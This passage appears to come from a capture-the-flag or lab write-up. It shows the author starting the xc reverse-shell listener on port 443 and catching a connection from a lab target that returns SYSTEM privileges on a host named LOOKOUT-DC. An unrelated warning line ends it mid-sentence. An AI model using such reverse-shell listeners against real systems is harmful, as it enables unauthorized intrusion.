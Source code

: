 And I grabbed my shell:

```
hcue@pjsk:/opt/xc(master○) » ./xc -l -p 443                                                                                                                                                                                            1 ↵

		__  _____
		\ \/ / __|
		>  < (__
		/_/\_\___| by @xct_de
		           build: XBWQOEYPUG

2022/12/05 09:05:16 Listening on :443
2022/12/05 09:05:16 Waiting for connections...
2022/12/05 09:07:06 Connection from 10.129.254.249:63732
2022/12/05 09:07:06 Stream established

[*] Auto-Plugins:
[xc: C:\Windows\system32]: whoami
nt authority\system
[xc: C:\Windows\system32]: hostname
LOOKOUT-DC
```

[WARNING]: provided hosts list is empty, only localhost is available. Note that